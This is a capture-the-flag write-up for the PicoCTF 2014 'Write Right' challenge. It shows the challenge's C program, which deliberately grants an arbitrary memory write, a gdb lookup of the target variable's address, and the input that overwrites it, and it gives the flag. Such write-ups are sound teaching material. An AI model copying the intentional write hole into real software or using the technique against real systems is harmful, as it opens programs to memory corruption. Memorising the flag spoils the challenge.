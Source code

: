 # Pico-CTF 2014: Write Right 

**Category:** Binary Exploitation
**Points:** 50
**Total Solves:** Not Available
## Problem Description:
[//]: # (Description of your problem. For eg use below description as a template)
[//]: # (> This program is vulnerable to a format string attack! See if you can modify a variable by supplying a format string! The binary can be found at /home/format/ on the shell server. The source can be found [here](format.c).)
> Can you change the secret? The binary can be found at /home/write_right/ on the shell server. The source can be found [here](write_right.c). 

## Write-up
[//]: # (> Your write up goes here.)
> Looking at source code its easy to understand that write_right binary reads address and write whatever user gives it as a input.
Looking at source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>

unsigned secret = 0xdeadbeef;

int main(int argc, char **argv){
    unsigned *ptr;
    unsigned value;

    char key[33];
    FILE *f;

    printf("Welcome! I will grant you one arbitrary write!\n");
    printf("Where do you want to write to? ");
    scanf("%p", &ptr);
    printf("Okay! What do you want to write there? ");
    scanf("%p", (void **)&value);

    printf("Writing %p to %p...\n", (void *)value, (void *)ptr);
    *ptr = value;
    printf("Value written!\n");

    if (secret == 0x1337beef){
        printf("Woah! You changed my secret!\n");
        printf("I guess this means you get a flag now...\n");

        f = fopen("flag.txt", "r");
        fgets(key, 32, f);
        fclose(f);
        puts(key);

        exit(0);
    }

    printf("My secret is still safe! Sorry.\n");
}
``` 

> Solution to get the flag is to give the address of variable secret when it asks where you want to write and when it ask what you want to write give the secret `1337beef` as format specifier specified in scanf function is `%p`, so we don't need to give the int of 1337beef.
> To get the address of secret variable start the program in gdb and give the command: `p &secret` (equivalent to print &secret)

```bash
pico1139@shell:/home/write_right$ gdb -q write_right
Reading symbols from write_right...(no debugging symbols found)...done.
(gdb) p &secret
$1 = (<data variable, no debug info> *) 0x804a03c <secret>
```

> Address of secret is 0x804a03c. After getting the address ran the binary:
> > ```
pico1139@shell:/home/write_right$ ./write_right
Welcome! I will grant you one arbitrary write!
Where do you want to write to? 804a03c
Okay! What do you want to write there? 1337beef
Writing 0x1337beef to 0x804a03c...
Value written!
Woah! You changed my secret!
I guess this means you get a flag now...
arbitrary_write_is_always_right
```
> The flag is **arbitrary_write_is_always_right**

## Other write-ups and resources

* None
